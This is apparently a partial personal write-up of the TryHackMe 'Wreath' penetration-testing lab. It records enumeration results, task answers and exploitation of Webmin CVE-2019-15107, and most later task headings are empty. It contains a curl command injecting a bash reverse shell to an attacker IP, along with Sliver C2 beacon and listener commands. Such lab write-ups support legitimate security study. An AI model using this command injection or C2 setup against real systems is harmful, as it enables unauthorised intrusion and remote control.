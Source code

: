 # Wreath Writeup

![](mugshot.png)

Name: Wreath
Date:  
Difficulty:  
Goals:  
- Masscan does miss - Check on the naabu / rustscan alternative question again 
Learnt:
Beyond Root:

- [[Wreath-Notes.md]]
- [[Wreath-CMD-by-CMDs.md]]
- [[Wreath-Penetration-Test-Report]]

![](Wreath-map.excalidraw.md)

##

#### Lab Scope

`toolname-username` - Shared network naming conventions

#### Brief

*There are two machines on my home network that host projects and stuff I'm working on in my own time -- one of them has a webserver that's port forwarded, so that's your way in if you can find a vulnerability! It's serving a website that's pushed to my git server from my own PC for version control, then cloned to the public facing server. See if you can get into these! My own PC is also on that network, but I doubt you'll be able to get into that as it has protections turned on, doesn't run anything vulnerable, and can't be accessed by the public-facing section of the network. Well, I say PC -- it's technically a repurposed server because I had a spare license lying around, but same difference.*
## Webserver Enumeration

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Masscan missed the top 10000 plus port once on 300 rate and on 100 rate... I miss read that 

nikto - found redirect https://thomaswreath.thm

![](10000vuln.png)

![](renmapscananotherport.png)

Nuclei find open redirect to a weird domain... 
`[open-redirect] [http] [medium] http://10.200.96.200/.evil.com [redirect=".evil.com"]`

Mr Wreath is backdoored - this should not resolve
![](backdooredman.png)

`mx.evil.com`  is mail server DNS recond also found by Nuclei the `thomaswreath.thm.evil.com`

[[CVE-2018-11784-http___10.200.96.200__interact.sh]]

![](stillcantfindthatplus15kport.png)

![](poorladisfromyorkshire.png)

#### Task 5 Webserver Enumeration

How many of the first 15000 ports are open on the target?
```
5
```
What OS does Nmap think is running?
```
centos
```

What site does the server try to redirect you to?
```
https://thomaswreath.thm
```

What is Thomas' mobile phone number?

![](verydoxable.png)

```
+447821548812
```

What server version does Nmap detect as running here?
```
MiniServ 1.890 (Webmin httpd)
```

What is the CVE number for this exploit?
```
CVE-2019-15107
```

## Webserver Exploitation

I am prepared doing this machine and do not need to learn Empire or Chisel (just revising chisel) and will use Silver instead.

```go
generate beacon --mtls 10.50.76.121:2222 --arch amd64 --os linux --save /home/kali/Wreath/
mtls -L 10.50.76.121  -l 2222

// In Directory pack to reduce file size
upx WIDE-EYED_TRAM

```


[Exploit DB for Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)](https://www.exploit-db.com/exploits/47230), because OSCP's one Metasploit usage on one machine   

![](foxsincodeexplained.png)

So we do need to worry about python virtual environments for compatibility
```bash
curl  -k https://10.200.96.200:10000/password_change.cgi -d 'user=gotroot&pam=&expired=2|echo ""; bash -i >& /dev/tcp/10.50.76.121/10000 0>&1' -H 'Referer: https://10.200.96.200:10000/session_login.cgi'
```

Muirland also has an exploit to use - a better way to do this would be to create a virtual environment
```bash
git clone https://github.com/MuirlandOracle/CVE-2019-15107
cd CVE-2019-15107 
python3 -m venv .venv
source .venv/bin/activate

pip3 install .
```



#### Task 6 Webserver Exploitation

#### Task 7 Pivoting What is Pivoting?

#### Task 8 Pivoting High-level Overview

#### Task 9 Pivoting Enumeration

#### Task 10 Pivoting Proxychains & Foxyproxy

#### Task 11 Pivoting SSH Tunnelling / Port Forwarding

#### Task 12 Pivoting plink.exe

#### Task 13 Pivoting Socat

#### Task 14 Pivoting Chisel

#### Task 15 Pivoting sshuttle

#### Task 16 Pivoting Conclusion

#### Task 17 Git Server Enumeration

#### Task 18 Git Server Pivoting

#### Task 19 Git Server Code Review

#### Task 20 Git Server Exploitation

#### Task 21 Git Server Stabilisation & Post Exploitation


## C2 Choices Diverge...

From this point I will use silver instead of PowerShell Empire.

#### Task 22 Command and Control Introduction

#### Task 23 Command and Control Empire: Installation

#### Task 24 Command and Control Empire: Overview

#### Task 25 Command and Control Empire: Listeners

#### Task 26 Command and Control Empire: Stagers

#### Task 27 Command and Control Empire: Agents

#### Task 28 Command and Control Empire: Hop Listeners

#### Task 29 Command and Control Git Server

#### Task 30 Command and Control Empire: Modules

#### Task 31 Command and Control Empire: Interactive Shell

#### Task 32 Command and Control Conclusion

#### Task 33 Personal PC Enumeration

#### Task 34 Personal PC Pivoting

#### Task 35 Personal PC The Wonders of Git

#### Task 36 Personal PC Website Code Analysis

#### Task 37 Personal PC Exploit PoC

#### Task 38 AV Evasion Introduction

#### Task 39 AV Evasion AV Detection Methods

#### Task 40 AV Evasion PHP Payload Obfuscation

#### Task 41 AV Evasion Compiling Netcat & Reverse Shell!

#### Task 42 AV Evasion Enumeration

#### Task 43 AV Evasion Privilege Escalation

#### Task 44 Exfiltration Exfiltration Techniques & Post Exploitation

#### Task 45 Conclusion Debrief & Report

